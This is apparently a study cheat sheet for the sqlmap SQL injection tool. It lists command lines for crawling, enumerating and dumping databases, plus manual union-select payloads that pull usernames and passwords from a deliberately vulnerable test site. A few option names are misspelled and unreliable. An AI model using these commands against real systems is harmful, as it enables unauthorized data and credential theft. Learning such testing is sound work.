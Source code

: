 # SQLmap
 
# Overview 

- Techniques     |     -u        
- Crawl         |     --forms
- Enumeration   |     --data
- Batch         |     --headers
- Risk          |     --user-agent
- Level         |     --cookie
- Threads       |     --flush-session
- Verbosity     |     --output-dir
- Proxy         |     --tamper
- SQL Injection Via Burp-Suite

# Techniques 

* B: Boolean-based blind
* E: Error-based
* U: Union query-based
* S: Stacked queries 
* T: Time-based blind
* Q: Inline queries 
   --technique-"B"

# Crawl

* Depth 1: http://www.example.com/news
* Depth 2: http://www.example.com/news/newest/
* Depth 3: http://www.example.com/news/newest/terror/
* Depth 4: http://www.example.com/news/newest/terror/country/
     --crawl 3
     
# Verbosity
* 0: show only python tracebacks, error and critical messages.
* 1: show also information and warning messages.
* 2: show also debug messages.
* 3: show also payloads injected.
* 4: show also HTTP requests.
* 5: show also HTTP responses'headers.
* 6: show also HTTP responses'page content
     
# Kali linux   ( command ) 

1.  sqlmap -u http://www.example.com/ --crawl 2 
2.  sqlmap -u http://www.example.com/ --crawl 3 --batch 
3.  sqlmap -u http://www.example.com/ --crawl 3 --technigue="U"                ( U = union )
4.  sqlmap -u http://www.example.com/ --crawl 2 --batch --threads 5            ( 1 to 10 )
5.  sqlmap -u http://www.example.com/ --crawl 2 --batch --risk 2               ( 1 to 3 )
6.  sqlmap -u http://www.example.com/ --crawl 2 --batch --level 1              ( 1 to 5 )
7.  sqlmap -u http://www.example.com/ --crawl 3 --batch -v 4                   ( 0 to 6 )
8.  sqlmap -u http://www.example.com/listproducts.php?cat=? --current-user --current-db --hostname --batch     ( vulnerable website link )
9.  sqlmap -u http://www.example.com/listproducts.php?cat=? --dbs              ( all data base details )
10. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) --tables 
11. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) -T ( avl. tables name ) --dump
12. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) -T ( avl. tables name ) --columns 
13. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) --dump-all
14. sqlmap -u http://www.example.com/ --crawl 2 --output-dir="home/ghost/desktop/sql/" --batch
15. sqlmap -u http://www.example.com/ --crawl 2 --headers="Referer:abc.com" -v 4 --batch
16. sqlmap -u http://www.example.com/ --crawl 2 --user-agent="GECKO_CHROME" -v 4 --batch
17. sqlmap -u http://www.example.com/ --crawl 2 --mobile -v 4 
18. sqlmap --list-tempers
19. sqlmap -u http://www.example.com/ --crawl 2 --tamper=base64encode -v 3 --batch

# BRUTE FORCE LOGIN PAGE
* first we need url of login page 
* than we need username && password && login we need to find the value of username , password , login [ by using inspect ].
* for eg username value is going with uname && password value is going with pass && login value is going with submit.
* also we need to check the username && password && login case value is going with userinfo.php 
* sqlmap -u http://www.example.com/login.php --forms         (next step first cat the sql save data)
* sqlmap -u http://www.example.com/userinfo.php --data="uname=abc&pass=abc&login=submit" --dbs

# PROXY
* sqlmap -u http://www.example.com/ --crawl 2 --proxy="127.0.0.1:8080"      ( then go to burp suite )

# Highlights
* --cookie
* --flush-session
* --comment
* --os-shell
* --os-cmd

# Manually 
1. http://testphp.vulnweb.com/
2. http://testphp.vulnweb.com/listproducts.php?cat=1'           ( we use malicious payload )
3. http://testphp.vulnweb.com/listproducts.php?cat=1 order by 11--+
4. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,7,8,9,10,11--+
5. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,7,8,9,10,11--+
6. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,7,8,version(),10,11--+
7. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,table_name,8,version(),10,11 from information_schema.tables--+
8. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,column_name,8,version(),10,11 from information_schema.columns where table_name="users"--+
9. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,group_concat(uname,pass),8,version(),10,11 from users--+







